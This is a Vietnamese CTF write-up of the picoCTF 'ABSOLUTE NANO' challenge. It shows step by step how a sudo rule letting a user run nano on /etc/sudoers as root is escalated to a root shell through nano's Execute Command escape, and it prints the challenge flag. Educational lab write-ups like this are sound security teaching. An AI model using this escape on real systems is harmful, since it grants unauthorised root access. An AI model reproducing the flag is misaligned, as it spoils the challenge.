




# picoCTF Writeup - ABSOLUTE NANO

## Mục tiêu
Dưới đây là mô tả chi tiết từ đề bài:



Leo thang đặc quyền (Privilege Escalation) từ người dùng thông thường (`ctf-player`) lên quyền `root` trên máy chủ mục tiêu nhằm đọc được nội dung của file `flag.txt` đang bị khóa quyền.

## Phân tích
Dựa trên các dữ kiện thu thập được trong quá trình làm bài:
- **Dấu hiệu:** Sau khi kết nối SSH thành công, thư mục hiện tại có chứa file `flag.txt` nhưng khi dùng lệnh `cat` để đọc thì bị báo lỗi `Permission denied`. Tuy nhiên, khi kiểm tra bằng lệnh `sudo -l`, hệ thống thông báo người dùng `ctf-player` được phép chạy lệnh `/bin/nano /etc/sudoers` dưới quyền tất cả các user (bao gồm root) mà không cần mật khẩu (`NOPASSWD`).

- **Lỗ hổng:** Cấu hình sai đặc quyền Sudo (Sudo Misconfiguration). Mặc dù quản trị viên đã giới hạn chỉ cho phép dùng `nano` để mở đúng file `/etc/sudoers`, nhưng bản thân trình soạn thảo `nano` lại chứa một tính năng cho phép thực thi lệnh hệ thống từ bên trong nó. Khi `nano` được chạy bằng `sudo`, mọi lệnh thực thi từ bên trong `nano` cũng sẽ mang đặc quyền `root`.

- **Ý tưởng:** Tham chiếu kỹ thuật leo quyền `nano` trên **GTFOBins**. Chạy lệnh `nano` được cho phép, sau đó dùng tính năng "Execute Command" của nó để tạo ra một shell mới. Vỏ shell này sẽ kế thừa quyền `root`, cho phép ta đọc bất kỳ file nào.

## Khai thác
Các bước thực hiện chi tiét:
1. **Kết nối tới dịch vụ:**
Sử dụng thông tin tài khoản được cung cấp trong phần Description để SSH vào hệ thống.
```bash
```bash
ssh -p <PORT> ctf-player@crystal-peak.picoctf.net
# Khi được hỏi, nhập password: <password>
```

2. **Kiểm tra file và quyền hạn (Reconnaissance)::**
Liệt kê các file và kiểm tra quyền chạy sudo:
```bash
ls
cat flag.txt  # Bị từ chối
sudo -l       # Kiểm tra quyền
```
Kết quả sudo -l xác nhận ta có quyền: (ALL) NOPASSWD: /bin/nano /etc/sudoers

3. **Leo thang đặc quyền với Nano Shell Escape:**
Khởi động trình soạn thảo nano bằng đúng câu lệnh được cấp phép:Khởi động trình soạn thảo nano bằng đúng câu lệnh được cấp phép:
```bash
sudo /bin/nano /etc/sudoers
```
Khi màn hình nano hiện lên, thực hiện các tổ hợp phím sau để thoát ra root shell:
- Bấm Ctrl + R (chức năng Read File).
- Bấm tiếp Ctrl + X (chức năng Execute Command).
- Tại dấu nhắc lệnh hiện ra ở cuối màn hình (Command to execute), gõ chính xác dòng sau và nhấn Enter:
```bash
reset; sh 1>&0 2>&0
```

4. **Lấy cờ (Get Flag):**
Ngay sau khi nhấn Enter, giao diện nano sẽ đóng lại và bạn sẽ nhận được một shell mới với tư cách là root. Tiến hành in nội dung file cờ:
```bash
cat flag.txt
```
Flag: picoCTF{n4n0_411_7h3_w4y_3dc38f6f}

Các bước được mô tả bằng hình ảnh chi tiết:






